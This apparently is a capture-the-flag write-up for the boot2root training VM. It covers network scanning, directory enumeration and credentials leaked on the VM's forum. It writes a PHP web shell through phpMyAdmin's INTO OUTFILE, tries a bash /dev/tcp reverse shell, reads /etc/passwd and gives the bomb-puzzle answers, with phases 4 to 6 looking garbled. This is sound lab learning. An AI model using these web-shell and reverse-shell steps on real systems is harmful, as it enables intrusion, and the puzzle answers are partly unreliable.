





## To get the ip and port of the VM

```sh
ifconfig # to get the ip of the vm
```


```sh
netstat -r # get open ports and ip
```

```sh
sudo nmap -v -T4 -A 192.168.1.0/24 # scan the network
```

```sh
arp -a
```

port ftp : 21 -> donc l'ip avec un port ftp appartiend a boot2root

to get all the ports :

```sh
nmap -sC -sV -oN nmap/initial 192.168.1.48
```
Results on our machine:

```sh
➜  ~ nmap -sC -sV -oN nmap/initial 192.168.1.48
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-14 21:31 CET
Nmap scan report for 192.168.1.48
Host is up (0.0018s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: OK have post-login capabilities LITERAL+ STARTTLS LOGINDISABLEDA0001 SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS Pre-login more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
443/tcp open  ssl/http Apache httpd 2.2.22
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: OK AUTH=PLAINA0001 have LITERAL+ Pre-login post-login SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS capabilities more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.10 seconds
```

we launch gobuster on the ip, here are the results:

```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:11:26 Starting gobuster in directory enumeration mode
===============================================================
/forum                (Status: 301) [Size: 314] [--> https://192.168.1.48/forum/]
/webmail              (Status: 301) [Size: 316] [--> https://192.168.1.48/webmail/]
/phpmyadmin           (Status: 301) [Size: 319] [--> https://192.168.1.48/phpmyadmin/]
/server-status        (Status: 403) [Size: 294]

===============================================================
2021/01/14 22:15:57 Finished
===============================================================
```


on forum ```https://ip_machine/forum/index.php?id=6```

we found a password on the report : 
```!q\]Ej?*5K5cy*AJ```


we connect to ```lmezard``` (the sender of the message) with this password
we manage to get lmezard's mail : ```laurie@borntosec.net```

we found that there is a phpmyadmin page and a webmail page. 

We access to the webmail of laurie : 
 


for php my admin 

```
login : root
mdp : Fg-'kKXBj87E:aJ$
```

on this website, we found multiple exploit and one with 9.8/10 score on SquirrelMail :
**https://www.cvedetails.com/cve/CVE-2017-7692/**


In metasploit with :
```
search cve 7692
```
But we ve found nothing interesting

with metasploit, we can find known exploit and use automated solution already found

here is one we try for SquirrelMail : 

**https://www.cvedetails.com/cve/CVE-2017-7692/**


We analyse forum dir with gobuster
```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48/forum/" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48/forum/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:10:38 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/images/]
/themes               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/themes/]
/modules              (Status: 301) [Size: 322] [--> https://192.168.1.48/forum/modules/]
/index                (Status: 200) [Size: 4935]
/includes             (Status: 301) [Size: 323] [--> https://192.168.1.48/forum/includes/]
/update               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/update/]
/js                   (Status: 301) [Size: 317] [--> https://192.168.1.48/forum/js/]
/lang                 (Status: 301) [Size: 319] [--> https://192.168.1.48/forum/lang/]
/config               (Status: 403) [Size: 293]
/backup               (Status: 403) [Size: 293]
/templates_c          (Status: 301) [Size: 326] [--> https://192.168.1.48/forum/templates_c/]

===============================================================
2021/01/14 22:15:36 Finished
===============================================================
```

we just have to add a file in template_c with :
```sh
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/template_c/cmd.php"
```
in the php my admin sql execution

thne we can execute any command with 

```https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=ls```

to execute ls and with anything we want just by replacing ls.

we try to create reverse shell with
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=%22bash%20-i%20%3E&%20/dev/tcp/192.168.1.27/4242%200%3E&1%22
```
and nc


we have get /etc/passwd with :
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false whoopsie:x:103:107::/nonexistent:/bin/false landscape:x:104:110::/var/lib/landscape:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash laurie:x:1003:1003:,,,:/home/laurie:/bin/bash thor:x:1004:1004:,,,:/home/thor:/bin/bash zaz:x:1005:1005:,,,:/home/zaz:/bin/bash dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:110:118::/var/spool/postfix:/bin/false 
```

```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password
```

```
lmezard:G!@M6f4Eatau{sF 
```

the pass is the pass of the ftp server:



so let's try to resolve the enigma on the fun file

By doing cmd file on it we found that is is a POSIX tar archive (GNU)

running tar -xvf on the fun file gave us a lot of pcap file in ft_fun


pass : Iheartpwnage

encrypt : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

then we use it to ssh with laurie on the boot2root iso

we decompile bomb and we deduced with the c decompilation that:

1 phase: 
```
Public speaking is very easy.
```

2 phase: 
```
1 2 6 24 120 720
```

phase 3:
```
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524
```

phase 4: 
```
9
```

4 phase: ```Public speaking is very easy.```
5 phase: ```Public speaking is very easy.```
6 phase: ```Public speaking is very easy.```